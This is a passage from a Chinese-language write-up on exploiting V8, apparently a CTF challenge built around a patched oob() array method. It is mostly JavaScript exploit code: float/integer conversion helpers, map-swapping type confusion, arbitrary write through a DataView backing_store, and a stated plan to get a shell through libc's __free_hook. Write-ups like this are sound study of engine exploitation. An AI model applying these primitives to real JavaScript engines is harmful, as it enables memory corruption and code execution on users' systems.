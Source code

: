 ```JavaScript
// test_demos
var a = [0.1, 0.2, 0.3, 1.0, 4.3];
var test_addr = get_addr(a) - 0x18n;
%DebugPrint(a);
arb_write(test_addr, 0xdeadbeefn);
console.log(a[2]);
%DebugPrint(a);
%SystemBreak();
```

但是上面使用FloatArray进行写入的时候, 在目标地址高位是0x7f等情况下, 会出现低20位被置零的现象, 可以通过DataView的利用来解决:  

 - DataView对象中的有如下指针关系:  `DataView -> buffer -> backing_store -> 存储内容` , 即`backing_store`指针指向了DataView申请的Buffer真正的内存地址;  

改进如下:  

```JavaScript
var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;
function writeDataview( addr, data ) {
    arb_write(buf_backing_store_addr, addr);
    data_view.setBigUint64(0, data, true);
    console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));
}
```

综上, 现在已经实现了任意地址写, 本地getshell还是考虑借助libc中的freehook, 至于地址泄露, 往前找肯定会存在我们需要的地址, 我们拥有很强的任意地址读写, 所以这不是一件难事:  

exp.js:
```JavaScript

// auxiliary funcs to convert between doubles and u64s
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);

function f2i( f ) {
    float64[0] = f;
    return bigUint64[0];
}
function i2f( i ) {
    bigUint64[0] = i;
    return float64[0];
}
function hex( x ) {
    return x.toString(16).padStart(16, "0");
}


// type confusion demo
var obj = {};
var obj_list = [obj];
var float_list = [4.3];

var obj_map = obj_list.oob();
var float_map = float_list.oob();

// obj_list.oob(float_map);
// var obj_addr = f2i(obj_list[0]) - 0x1n;
// obj_list.oob(obj_map);
// console.log("[DEMO] addr of obj is: 0x" + hex(obj_addr));
// %DebugPrint(obj);
// %SystemBreak();
```